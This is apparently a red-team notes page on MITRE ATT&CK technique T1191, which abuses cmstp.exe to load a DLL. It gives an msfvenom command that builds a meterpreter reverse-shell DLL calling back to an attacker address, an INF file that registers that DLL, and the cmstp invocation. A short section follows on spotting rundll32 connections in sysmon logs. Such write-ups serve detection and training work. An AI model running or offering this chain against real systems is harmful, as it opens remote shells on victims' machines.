

# T1191: CMSTP

## Execution

Generating the a reverse shell payload as a DLL:


```csharp
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=443 -f dll > /root/tools/mitre/cmstp/evil.dll
```


Creating a file that will be loaded by CSMTP.exe binary that will in turn load our evil.dll:


```csharp
[version]
Signature=$chicago$
AdvancedINF=2.5
 
[DefaultInstall_SingleUser]
RegisterOCXs=RegisterOCXSection
 
[RegisterOCXSection]
C:\experiments\cmstp\evil.dll
 
[Strings]
AppAct = "SOFTWARE\Microsoft\Connection Manager"
ServiceName="mantvydas"
ShortSvcName="mantvydas"
```


Invoking the payload:

```csharp
PS C:\experiments\cmstp> cmstp.exe /s .\f.inf
```

## Observations

Rundll32 is spawned which then establishes the connection back to the attacker:



A very privitive way of hunting for suspicious instances of rundll32 initiating connections would be skimming through the sysmon logs and looking for network connections being established by rundll32 immediately/soon after it had been spawned by cmstp.

Note how the connection was established one second after the process creation. This behaviour depends on what the payload is supposed to do, but if the payload is a reverse shell, it usually attempts connecting back immediately upon execution, which is exactly our case:


## References






